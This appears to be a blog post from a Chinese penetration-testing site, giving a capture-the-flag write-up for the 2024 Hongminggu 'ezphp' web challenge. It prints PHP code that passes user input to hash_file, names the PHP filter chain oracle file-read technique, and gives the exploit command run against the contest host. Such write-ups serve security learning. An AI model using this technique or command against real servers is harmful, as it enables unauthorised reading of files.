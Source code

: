 # [渗透测试中心](https://www.cnblogs.com/backlion)

##

* [博客园](https://www.cnblogs.com/)
* [首页](https://www.cnblogs.com/backlion/)
* [新随笔](https://i.cnblogs.com/EditPosts.aspx?opt=1)
* [联系](https://msg.cnblogs.com/send/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E5%BF%83)
* [管理](https://i.cnblogs.com/)
* 订阅
  [![订阅](/skins/coffee/images/xml.gif)](https://www.cnblogs.com/backlion/rss/)

# [2024年数字中国创新第四届红明谷杯网络安全大赛WP](https://www.cnblogs.com/backlion/p/18314087 "发布于 2024-07-21 03:40")

## WEB

### **ezphp**

题目描述：`一支专注于卫星通信技术的研究团队正在努力改进他们的通信系统，以提高数据传输的效率和安全性，团队决定采用PHP 8.3.2来完善通信系统开发。`

```
 考点：php filter chain Oracle
```

PHP Filter链——基于oracle的文件读取攻击

参考：<https://xz.aliyun.com/t/12939?time__1311=mqmhqIx%2BxfOD7DloaGkWepSazHG%3D4D>*#toc-16*

题目给出源码如下

```
 <?php
 highlight_file(__FILE__);
 // flag.php
 if (isset($_POST['f'])) {
     echo hash_file('md5', $_POST['f']);
 }
 ?>
```

![image-20240721022130265](https://img2023.cnblogs.com/blog/1049983/202407/1049983-20240721033931462-1413337098.png)

这里可以用的项目：<https://github.com/synacktiv/php_filter_chains_oracle_exploit/>

考点：可用`PHP Filter`链-基于oracle的文件读取攻击生成exp执行，题目提示php版本号正好满足条件，下载exp进行利用

![image-20240721022317838](https://img2023.cnblogs.com/blog/1049983/202407/1049983-20240721033932356-859123644.png)

执行`payload`，这里可能需要多跑几次才可以

```
 python3 filters_chain_oracle_exploit.py  --target http://eci-2zea1zzp9231ugqw9htd.cloudeci1.ichunqiu.com/ --file flag.php --parameter f
```
